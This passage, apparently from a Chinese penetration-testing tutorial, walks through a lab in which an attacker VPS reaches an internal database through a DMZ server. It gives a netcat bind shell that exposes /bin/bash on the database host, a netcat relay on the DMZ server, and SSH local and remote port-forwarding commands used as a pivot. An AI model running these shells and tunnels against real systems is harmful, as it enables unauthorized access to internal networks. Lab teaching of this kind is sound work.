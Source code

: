实验环境：

```
攻击者VPS：192.168.1.4
DMZ服务器：192.168.1.1/1.1.1.116
内网数据库：1.1.1.200


```

代理目的：攻击者 VPS 能够管控内网数据库的终端

```
#攻击者VPS
nc -lvp 3333

#内网数据库
nc -lvp 3333 -e /bin/bash

#DMZ服务器
nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"


```

### 3.2 应用层 SSH 代理

Copy

SSH 协议属于应用层协议，一个普通的 SSH 命令如下：

`ssh root@192.168.1.1`

3.2.1 实验环境

Kali:192.168.1.4  
DMZ 服务器: 192.168.1.11/1.1.1.16  
数据库服务器：1.1.1.10

3.2.2 本地转发 (适合目标机能够接收内部流量的情况)

转发目的：以 DMZ 服务器为跳板，访问数据库服务的 3389 端口

```
#在Kali上执行，会要求输入DMZ服务器的SSH密码：
ssh -CfNg -L 1153(本地端口):1.1.1.10:3389(目标主机) root@192.168.1.11(跳板机)


```

本地转发是将远程主机某个端口的数据转发到本地机器的指定端口，此时访问本地的 1153 端口，即可成功代理目标主机的 3389 端口流量。

3.2.3 远程转发 (适合跳板机能够发送内部流量的情况)

转发目的：以 DMZ 服务器为跳板，访问数据库服务的 3389 端口

```
#在DMZ服务器上执行
ssh -CfNg -R 3307(Kali端口):1.1.1.10:3389(目标主机) root@192.168.1.4(Kali主机)


```
